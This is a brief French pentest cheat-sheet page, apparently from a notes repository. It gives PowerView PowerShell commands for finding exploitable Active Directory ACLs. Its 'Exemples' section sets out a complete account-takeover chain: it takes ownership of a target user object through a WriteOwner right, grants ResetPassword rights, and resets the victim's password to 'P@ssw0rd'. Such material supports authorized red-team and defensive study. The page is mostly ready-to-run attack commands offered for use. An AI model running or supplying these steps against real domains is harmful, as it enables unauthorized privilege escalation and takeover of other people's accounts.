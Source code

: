 ```yaml
---
public: true # set to true to make the article publishable
---
```



```powershell
. .\PowerView.ps1
# ACLs intéressantes (très long)
Find-InterestingDomainAcl

# ACLs liées à un compte spécifique ($targetUserName)
$sid = Convert-NameToSid $targetUserName 
# peu prendre beaucoup de temps (plusieures minutes vois dizaines de minutes)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

## Exemples 

```powershell title="Réinitialisation du mot de passe AD via appropriation de l'objet utilisateur cible"

# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity source_user
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword

# Réinitialisation du password
$pass = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
Set-DomainUserPassword -Identity Target_AD_User -Password $pass
```

```
#
```